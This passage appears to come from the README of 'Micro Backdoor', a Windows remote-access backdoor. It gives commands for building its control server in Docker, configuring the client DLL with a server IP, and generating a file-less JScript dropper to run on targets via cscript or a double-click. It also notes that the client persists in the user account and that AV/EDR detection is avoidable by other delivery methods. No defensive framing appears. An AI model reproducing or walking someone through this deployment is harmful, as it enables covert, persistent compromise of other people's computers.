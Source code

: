 Before building the container you need to run `./server.py --keys` on your local machine to generate RSA key pair for secure communication between Micro Backdoor client and server. Then you have to cd into the `docker` directory and run `make` to build docker image and start the container. To stop running container you can press Ctrl+C and use `make start`/`make stop` commands to run it in the background, `make rm` to remove container and `make rmi` to remove image. To ssh into the running container run `make shell` and enter the password specified in `docker/makefile.conf` file ("acab" without quotes by default).  

NOTE: Before building docker container please ensure that exposed TCP ports specified in `docker/makefile.conf` are the same as `CLIENT_PORT` and `HTTP_PORT` port numbers specified in `config.py` of the server.


## Configuring the client

Micro Backdoor client consists from the binary part used to implement backdoor functionality and JScript wrapper combined with the shellcode used to run and deliver the binary part in file-less way.  

⚠️ **JScript and PowerShell code used in client dropper is easily detectable by most of AV/EDR products, you should consider to modify it [or use other methods](https://github.com/Cr4sh/s6_pcie_microblaze/tree/master/python/payloads/DmaBackdoorBoot) to deliver the binary part of the client**  

First, you have to configure the binary using `./client_builder.py` command line program, it operates with default configuration specified in `./server/config.py` file mentioned in previous part of the document.  

Install [Python pefile](https://pypi.org/project/pefile/) library:

```
$ pip install pefile
```

Configure the client binary:

```
$ ./client_builder.py client.dll [server_IP]
```

Also, you can specify `client_amd64.dll` file to use x86_64 version of the client, or `client_debug.dll`/`client_amd64_debug.dll` to use debug build of the client that prints diagnostic messages into the standard Windows debug output. Before running `client_builder.py` you need to generate RSA key pair, see [Configuring the server](#configuring-the-server) section of this document.  

You can use configured client binary with your own delivery tool: exploit, reflective loader, etc. Or you can generate JScript client dropper:

```
$ ./client_encoder.py dll_inject_script client.dll > dropper.js
```

Please note, that JScript/PowerShell reflective loader generated by `client_encoder.py` is working only with 32-bit versions of the client binary on both 32-bit and 64-bit Windows targets. 64-bit client binaries are provided only for convenience in case if you need to use them with your own loaders and tools.  

After the `dropper.js` was generated you can deploy it on your targets. In Windows command line you can run JScript files by running `cscript.exe dropper.js`. Or you can just double click JS file in Windows Explorer to run the dropper. Micro Backdoor client provides persistence within current user account used to run the dropper, it can work with any privileges and medium integrity level.

## Developed by

Dmytro Oleksiuk (aka Cr4sh)

cr4sh0@gmail.com<br/>
http://blog.cr4.sh<br/>
[@d_olex](http://twitter.com/d_olex)<br/>


